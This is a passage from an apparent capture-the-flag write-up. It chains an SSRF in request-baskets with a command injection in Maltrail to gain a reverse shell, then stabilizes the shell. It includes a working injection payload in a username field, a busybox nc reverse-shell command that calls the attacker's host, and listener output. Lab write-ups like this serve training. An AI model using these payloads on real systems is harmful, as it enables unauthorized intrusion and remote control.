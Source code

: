 Next, we send the request to our bucket, with the injected curl command:
```
┌──(kali㉿kali)-[~]
└─$ curl http://10.10.11.224:55555/3gu14de -d 'username=;`curl 10.10.14.155`'
```
After a moment of waiting, we can see a request was sent to our listener!
```
┌──(kali㉿kali)-[~]
└─$ nc -lp 80
GET / HTTP/1.1
Host: 10.10.14.155
User-Agent: curl/7.68.0
Accept: */*
```
The user-agent is curl as expected, and very importantly the host is `10.10.14.155`, our victim's IP. 
### Chain exploiting request-basket's SSRF and Maltrail's Command Injection for RCE

Now to generate a reverse shell. For this, I used the busybox nc payload from [revshells](https://www.revshells.com/):

```
┌──(kali㉿kali)-[~]
└─$ curl http://10.10.11.224:55555/3gu14de -d 'username=;`busybox nc 10.10.14.155 8888 -e bash`'
```
Meanwhile on my nc listener:
```
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.14.155] from (UNKNOWN) [10.10.11.224] 34052
id                                                                                                                  
uid=1001(puma) gid=1001(puma) groups=1001(puma)
```

## Privilege Escalation
### Stabilizing reverse shell
Currently, the reverse shell has limited capabilities. We can improve the stability with `script`:
```
script -qc /bin/bash /dev/null
```
Afterwards, we must reconfigure stty from our kali terminal. Using ctrl+Z will send the reverse shell to background, were we can configure stty.
```
puma@sau:/opt/maltrail$ ^Z                                                                                          
zsh: suspended  nc -nvlp 8888                                                                                       
                                                                                                                    
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg                               
[1]  + continued  nc -nvlp 8888

puma@sau:/opt/maltrail$
```
`fg` returns the reverse shell to foreground, and now we have a stable, interactive session on the victim host.
### Checking for additional users on the system
We can see that we are user `puma`, and notably user 1001. Since user creations typically start with number 1000, there is likely another created user on the system. We can figure this out by checking /etc/passwd:
```
```